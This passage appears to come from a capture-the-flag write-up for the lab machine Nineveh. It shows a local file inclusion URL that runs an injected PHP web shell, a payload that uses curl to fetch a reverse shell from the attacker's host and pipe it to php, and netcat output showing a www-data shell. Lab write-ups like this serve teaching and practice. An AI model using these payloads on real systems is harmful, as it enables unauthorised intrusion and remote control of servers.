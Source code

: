 A google search for "syntax error, unexpected 'cmd' (T\_STRING), expecting ']'" finds a post on stackexchange, which talks about quotation marks being the problem for the example giving by the original poster.

{% embed url="https://stackoverflow.com/questions/25350897/parse-error-syntax-error-unexpected-text-t-string-expecting-or" %}

Let's remove the table and re-add it with the following "Default value":

![](../../.gitbook/assets/18.JPG)

Note that we have replaced the single quotes around cmd with double quotes.

Let's test it:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id)

![](<../../.gitbook/assets/19 (1).JPG>)

Now that we have command execution, let's copy a PHP reverse shell to our working directory (we used the following one which is included in Kali at /usr/share/webshells/php/php-reverse-shell.php) and start a python3 web server.

Next, start a netcat listener, and use the following payload which will download our PHP script and execute it:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=curl%2010.10.14.6/rshell.php|php](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=curl%2010.10.14.6/rshell.php|php)

In our a shell as "www-data".

```
└─$ nc -nvlp 8888                                                                                           255 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:45000.
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 07:20:19 up  4:53,  0 users,  load average: 0.01, 0.14, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```